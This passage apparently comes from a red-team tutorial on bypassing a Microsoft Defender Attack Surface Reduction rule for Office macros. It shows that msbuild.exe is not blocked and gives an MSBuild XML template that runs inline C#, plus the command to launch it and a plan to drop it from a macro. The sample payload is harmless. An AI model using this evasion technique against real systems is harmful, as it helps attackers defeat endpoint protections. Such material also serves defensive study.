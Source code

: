 It also turns out that not all processes are blocked when this rule is enabled.  For instance, `WScript.Shell` can be used to start Notepad.

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/wscript_shell_notepad.png)

This suggests that the ASR rule is actually based on some sort of blacklist, so there may be scope to use command-line based execution.  An obvious place to look for these is the [LOLBAS project](https://lolbas-project.github.io/).  It only took me a few minutes to discover that **msbuild.exe** is not blocked, and there are probably loads more if you look deeper.

MSBuild can execute inline C# code from a `.xml` or `.csproj` file.  The MSBuild XML schema is documented [here](https://docs.microsoft.com/en-us/visualstudio/msbuild/msbuild-project-file-schema-reference).  Take the following example:
```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
    <ASRSucks />
  </Target>
  <UsingTask
    TaskName="ASRSucks"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        
        public class ASRSucks : Task, ITask
        {         
          public override bool Execute()
          {
              Console.WriteLine("Hello from C#!");
              return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

This can be executed like so:
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe test.xml
```

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/msbuild.png)

The only requirement is that we drop this code to disk.  One strategy could be to save the code somewhere in the document (such as the comments), fetch it with the Macro, write to disk and execute.
